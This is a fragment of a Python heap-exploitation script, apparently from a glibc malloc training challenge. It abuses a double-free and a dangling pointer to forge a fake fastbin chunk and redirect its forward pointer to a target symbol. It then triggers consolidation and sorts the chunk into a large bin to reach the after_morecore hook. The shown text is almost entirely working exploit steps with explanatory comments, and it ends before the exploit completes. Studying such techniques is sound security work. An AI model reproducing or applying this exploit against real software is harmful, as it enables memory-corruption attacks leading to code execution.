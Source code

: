 ```python=
# Now that the mmap threshold is beyond 0x60000, requesting chunks of that size will allocate them
# from a heap, rather than via mmap().
# This in turn will increase the total memory checked out from the kernel, which is tracked by
# an arena's system_mem field.
mem = malloc(0x5fff8, b"Z"*8)


# =-=-=- LINK FAKE CHUNK INTO A FASTBIN -=-=-=

# We can't request fast-sized chunks!
# Instead, forge one on the heap using vestigial malloc metadata, then free it via a dangling pointer.

# Prepare dangling pointer.
chunk_A = malloc(0x88, b"A"*8)
dangling_pointer = malloc(0x88, b"B"*8) # Dangling pointer.

free(chunk_A)
free(dangling_pointer)

# Coerce a 0x20 size field onto the heap, lined up with the dangling pointer.
chunk_C = malloc(0xa8, b"C"*8)
chunk_D = malloc(0x88, b"D"*8) # Guard against top consolidation.

free(chunk_C)
chunk_E = malloc(0x88, b"E"*8) # Remainder chunk_C, leaving a free 0x20 chunk.

# Free chunk E to consolidate it with the unsorted 0x20 chunk, avoiding unlinking problems later.
free(chunk_E)

# Consolidate everything with the top chunk, we need to request the space overlapping the 0x20 chunk.
free(chunk_D)

# Free the dangling pointer, the size field at that location is 0x20, vestigial malloc metadata.
free(dangling_pointer) # Double-free.

# Request a chunk overlapping the free 0x20 chunk and overwrite its fd with the address
# of our fake chunk.
chunk_F = malloc(0x88, b"F"*8)
overlap = malloc(0x88, pack(elf.sym.user))


# =-=-=- CONSOLIDATE FAKE CHUNK INTO UNSORTEDBIN -=-=-=

# Free the 0x60000 chunk, which is large enough to trigger malloc_consolidate().
# Previously we did this by requesting then freeing a normal chunk bordering the top.
free(mem)


# =-=-=- SORT FAKE CHUNK INTO BIN 126 -=-=-=

# Sort the fake chunk into bin 126 by setting its size to the minimum required to qualify for it,
# then requesting a chunk larger than the fake chunk.
# This part is where the unsortedbin size sanity check would catch us if we hadn't increased system_mem.
amend_age(0x80001)
malloc(0x80008, b"G"*8)

# Increase the fake chunk size so that it can reach the after_morecore hook.
# Making this value too large will fail the size sanity check during unsortedbin allocation
# of the following chunk. It can also trigger segfaults or busfaults when the remaindering code
# attempts to update the prev_size field of the succeeding chunk.
```